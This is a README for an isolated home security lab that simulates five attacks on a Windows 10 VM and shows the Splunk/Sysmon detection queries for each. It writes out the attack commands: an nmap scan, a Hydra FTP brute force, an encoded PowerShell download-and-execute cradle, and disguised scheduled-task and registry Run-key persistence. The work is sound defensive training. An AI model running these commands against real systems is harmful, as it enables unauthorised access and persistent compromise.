# SOC Home Lab — Attack Detection & Monitoring

This lab simulates five real attack techniques against a Windows 10 
target and detects each one using Splunk and Sysmon.

Built on VirtualBox with Kali Linux as the attacker and Windows 10 
as the target. Every detection was written from scratch after 
diagnosing why default Windows logging was insufficient — including 
manually enabling audit policies, configuring Sysmon with a custom 
schema, and ingesting third-party logs into Splunk.

This is not a guided tutorial follow-along. The attacks broke things. 
The default configs missed events. Each gap was diagnosed and fixed.
---

## Lab Architecture

| Component | Role |
|---|---|
| Kali Linux (192.168.56.102) | Attacker machine |
| Windows 10 (192.168.56.101) | Target machine |
| Splunk Enterprise | SIEM — log collection and detection |
| Sysmon | Windows telemetry — process, network, registry events |
| VirtualBox | Hypervisor — Host-Only network isolates both VMs |

**Network Setup:**
Both VMs run on a VirtualBox Host-Only network (192.168.56.0/24), 
isolating attack traffic from the internet while allowing communication 
between attacker and target.

[Architecture Diagram]
---
[Kali Linux]
      |
      | Attacks
      |
      V
[Windows 10 Victim]
      |
      | Sysmon Logs
      | Windows Event Logs
      |
      V
[Splunk Enterprise]
      |
      | Detections
      | Dashboards
      | Alerts
      |
      V
Incident Investigation
---

## Tools Used

- **Kali Linux** — nmap, Hydra
- **Splunk Enterprise 10.4** — log ingestion, SPL queries, dashboards
- **Sysmon v15.20** — Windows system monitoring
- **FileZilla Server** — FTP server used as brute-force target
- **VirtualBox** — virtualization

---

## Detections Demonstrated

### 1. Reconnaissance Detection (Port Scanning)

**What the attacker did:**
Ran an nmap SYN scan from Kali to discover open ports and services 
on the Windows target.

**Attack command (Kali):**
```bash
nmap -sS -sV -O 192.168.56.101
```

**What this reveals:**
Open ports including 135 (RPC), 445 (SMB), 8000 (Splunk), 
5432 (PostgreSQL) — exactly what a real attacker maps before 
choosing their next move.

**How it was detected:**
Windows Filtering Platform logs (EventCode 5156) captured every 
inbound connection attempt. Splunk aggregated these by source IP 
and destination port, revealing the scan pattern.

**Detection SPL:**
index=main source="WinEventLog:Security" EventCode=5156
Source_Address="192.168.56.102"
| stats count by Source_Address, Destination_Port
| sort -count

**Attack Screenshot:**


**Detection Screenshot:**


---

### 2. Authentication Attack Detection (FTP Brute Force)

**What the attacker did:**
Used Hydra to launch a dictionary attack against an FTP server 
running on the Windows target, trying thousands of passwords 
from the rockyou.txt wordlist.

**Attack command (Kali):**
```bash
hydra -l testuser -P /usr/share/wordlists/rockyou.txt ftp://192.168.56.101
```

**What this reveals:**
142 failed login attempts from a single IP in a short time — 
a clear brute-force pattern. In a real environment this would 
indicate credential stuffing or an active intrusion attempt.

**How it was detected:**
FileZilla Server logs every failed authentication as "530 Login 
incorrect". Splunk ingested this log file directly and counted 
failures per source IP using regex extraction.

**Detection SPL:**
index=main sourcetype=filezilla "530 Login incorrect"
| rex "(?<src_ip>\d+.\d+.\d+.\d+)"
| stats count by src_ip
| sort -count

**Attack Screenshot:**


**Detection Screenshot:**


---

### 3. PowerShell Activity Monitoring

**What the attacker did:**
Executed a Base64 encoded PowerShell command — a common 
technique attackers use to hide malicious code from basic 
inspection. The encoded command attempted to download and 
execute a remote script (living-off-the-land technique).

**Attack command (Windows):**
```powershell
$encoded = [Convert]::ToBase64String(
  [Text.Encoding]::Unicode.GetBytes(
    "IEX (New-Object Net.WebClient).DownloadString('http://example.com')"
  )
)
powershell -ExecutionPolicy Bypass -EncodedCommand $encoded
```

**What this reveals:**
The combination of -ExecutionPolicy Bypass and -EncodedCommand 
is a strong indicator of malicious intent. Legitimate software 
rarely uses Base64 encoded commands. This maps to MITRE ATT&CK 
T1059.001 (PowerShell) and T1140 (Deobfuscate/Decode).

**How it was detected:**
Sysmon EventCode 1 (Process Creation) captured the full command 
line including the encoded payload. Splunk filtered for the 
EncodedCommand flag.

**Detection SPL:**
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1
| search CommandLine="EncodedCommand"
| table _time, CommandLine

**Attack Screenshot:**


**Detection Screenshot:**


---

### 4. Persistence Detection (Scheduled Tasks)

**What the attacker did:**
Created a scheduled task named "WindowsUpdateHelper" designed 
to run a payload every time Windows starts, disguised as a 
legitimate Windows update process.

**Attack command (Windows):**
```cmd
schtasks /create /tn "WindowsUpdateHelper" /tr 
"C:\Windows\Temp\payload.exe" /sc onstart /ru SYSTEM
```

**What this reveals:**
Attackers use scheduled tasks to survive reboots. Running as 
SYSTEM gives the payload the highest privilege level. The name 
"WindowsUpdateHelper" is a social engineering tactic to blend 
in. This maps to MITRE ATT&CK T1053.005.

**How it was detected:**
Sysmon EventCode 1 captured schtasks.exe being executed with 
/create arguments, exposing the full command including the 
payload path and privilege level.

**Detection SPL:**
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1
| search CommandLine="schtasks" AND CommandLine="create"
| table _time, CommandLine, User

**Attack Screenshot:**


**Detection Screenshot:**


---

### 5. Registry Persistence Detection

**What the attacker did:**
Added a registry entry to the Windows Run key, forcing 
malware.exe to execute automatically every time any user 
logs in — one of the most commonly abused persistence 
mechanisms in the Windows registry.

**Attack command (Windows):**
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" 
/v "SecurityUpdate" /t REG_SZ 
/d "C:\Windows\Temp\malware.exe" /f
```

**What this reveals:**
The Run key is checked at every login. Naming the entry 
"SecurityUpdate" is deliberate deception. This maps to 
MITRE ATT&CK T1547.001 (Boot or Logon Autostart Execution).

**How it was detected:**
Sysmon EventCode 13 (Registry Value Set) logged the exact 
registry path modified and the value written, giving full 
visibility into what was planted and where.

**Detection SPL:**
index=main source="WinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=13
| search TargetObject="CurrentVersion\Run"
| table _time, Image, TargetObject, Details

**Attack Screenshot:**


**Detection Screenshot:**


---

### 6. IOC Investigation Dashboard

A unified Splunk dashboard aggregating all five detections 
into a single view, replicating a real SOC analyst's 
monitoring interface.

**Dashboard Screenshot:**


---

## Key Takeaways

- Configured Sysmon with a custom schema to enable process, 
  network, and registry telemetry
- Wrote SPL queries from scratch to detect each attack pattern
- Learned that default Windows 10 Home has significant 
  audit logging gaps that require manual policy configuration
- Understood the difference between host-based detection 
  (Sysmon) and network-based detection (WFP/EventCode 5156)

---

## MITRE ATT&CK Coverage

| Technique | ID | Detection |
|---|---|---|
| Network Scanning | T1046 | EventCode 5156 |
| Brute Force | T1110 | FileZilla logs |
| PowerShell | T1059.001 | Sysmon EventCode 1 |
| Scheduled Task | T1053.005 | Sysmon EventCode 1 |
| Registry Run Keys | T1547.001 | Sysmon EventCode 13 |
